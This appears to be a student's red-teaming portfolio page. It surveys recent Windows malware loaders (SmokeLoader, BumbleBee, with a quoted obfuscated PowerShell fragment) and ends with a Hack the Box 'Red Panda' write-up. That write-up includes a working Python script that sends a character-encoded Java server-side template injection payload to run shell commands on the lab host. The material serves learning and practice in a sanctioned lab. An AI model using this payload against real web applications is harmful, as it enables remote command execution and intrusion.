




# Learning outcome 1 - security specialist

1. [Trend research](#trend-research)
2. [Hands-on experience](#hands-on-experience)

# Trend research
The red teaming domain of cybersecurity industry is constantly influenced by new discoveries, reports and attacks that are happening in the world.
To try and create a snapshot of its current state, I will try to describe what trends are emerging, fading and blooming in the industry. 

## What is a trend?

To me, a trend is a generic term, which can describe the things that are on the mouths of people or the current preferences/commodidities that a 
certain group sticks to. However, in the cybersecurity context, trends can be defined as the directions in which the industry is developing,
new attack techniques, exploits on new (and old) technologies as well as the legal aspects of hacking. 

Therefore, I have decided to inquire into different hacker 'groups', malware aggregators and social platforms to see which things are receiving more
traction in the red teaming world.

## Windows exploitation

Windows is the most popular operating system in the world. Almost every PC runs it, and almost every company is using Windows ecosystem to manage their
assets and provide services for in-house needs. Moreover, if a company is has a web service, it most likely runs on Azure, which is also built on top of
Active directory and Windows Servers (*[Azure Stack](https://www.darrylvanderpeijl.com/azure-stack-the-fabric-layer/)*).

### Recent malware and vulnerability discoveries

In order to look for recent malware discoveries I have turned to websites such as *[VX-Underground](https://vx-underground.org)* and 
*[Malpedia](https://malpedia.caad.fkie.fraunhofer.de)*. Both websites are databases containing malware examples, source code and research papers
on different topics regarding red teaming (as well as sytem hardening). The websites are being often updated with new discoveries, therefore I 
have decided to use them as my sources for providing examples of recent Windows exploits.

1. Shellcode injection

	VX-Underground's twitter account often references security researchers which make interesting discoveries. 
	*[This tweet](https://twitter.com/vxunderground/status/156712442718730649e)* points to a security researcher which found numerous ways
	to execute shellcode in C# and in C using native Windows dlls - *[\_Wra7h/FlavorTown](https://github.com/Wra7h/FlavorTown)*

2. SmokeLoader
	
	Further browsing VX-Underground's twitter led me to a writeup on a SmokeLoader - a software used mainly for loading malware into infected 
	PC. According to Malpedia, this program has been used in a *[number of recent exploits](https://malpedia.caad.fkie.fraunhofer.de/details/win.smokeloader)*.
	*[A writeup](https://github.com/vc0RExor/Quick-Analysis/blob/main/SmokeLoader/SmokeLoader.md)* on SmokeLoader also explains that the malware
	has applied strong evasion techniques - it detects whether it is running in a virtual environment, is being debugged or statically analysed.
	Moreover the dropper uses a technique called *[process hollowing](https://github.com/m0n0ph1/Process-Hollowing)* to evade process-based surveillance.  

	Microsoft's security team found traces of SmokeLoader (alternatively called Dofoil) as early as in 2018. 
	In *[this post](https://www.microsoft.com/security/blog/2018/03/07/behavior-monitoring-combined-with-machine-learning-spoils-a-massive-dofoil-coin-mining-campaign/)*
	MS' security team explained that the dropper was used to propagate a cryptocurrency mining software through a poisoned peer-to-peer 
	application - PUA/PUP called MediaGet.

3. BumbleBee

	In march a new malware loader was discovered. The code was named 'BumbleBee', after an user agent string that the malware used to contact the command
	and control center. The discovery was made after a malware spread in a spear-phishing email campaign. The following graph shows an example of BumbleBee delivery

	

	In late August, a new attempt to deliver malware was prevented. The detailed description can be found on Deep Instinct's 
	*[website](https://www.deepinstinct.com/blog/the-dark-side-of-bumblebee-malware-loader)*. The malware delivery chain forces user
	to extract a _.zip_ archive, thus the _.iso_ file is mounted on victim's machine. The disk image contains a _.dll_ with payload and 
	a _.lnk_ file which opens a PowerShell script. To ensure stealthy execution of the payload, the PowerShell script uses multiple evasion techniques, such as:

	* It breaks up command strings, to obfuscate code and evade static analysis. An excerpt from the malware PS script:

	```
		$maraDizo = "Get";  
		$maraDizo += "Current";
		$maraDizo += "Process";

		# I skipped over some code

		$cPr = [System.Diagnostics.Process]::$maraDizo;
	```

	* BumbleBee proactively checks for a virtual/sandboxed environment and tries to prevent analysis. It was found to use
	*[al-khaser](https://github.com/LordNoteworthy/al-khaser)* - an open-source project containing a plethora of different tools that check whether
	the malware is running in a VM, has a debugger attached, is being analysed etc.  

	According to Bleeping Computer, the malware is still in development and becomes more and more sophisticated with each update - for example, recent 
	versions, found in September, 
	*[load the payload directly into memory](https://www.bleepingcomputer.com/news/security/bumblebee-malware-adds-post-exploitation-tool-for-stealthy-infections/)*,
	reducing detection possibilities even more.

# Hands-on experience

To prove my proficiency in the practical part of red teaming, I have to provide proof of a hand-on experience with hacking. The techniques used are mentioned in the 
Mitre ATT&CK catalog.

## Hack the Box and SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice. Because I do not have 
much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda



The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:



I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose 
my payload with - _*{ malicious code }_. I tried getting all environment variables from the host.



I tried testing multiple payloads from *[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)*,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests

from bs4 import BeautifulSoup as bs

# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"

mid = ""
command = sys.argv[1]

for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"

payload = first + mid + last

# send post request to /search
ip = "10.10.11.170"
endpoint = "search"

res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )

soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})

print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.


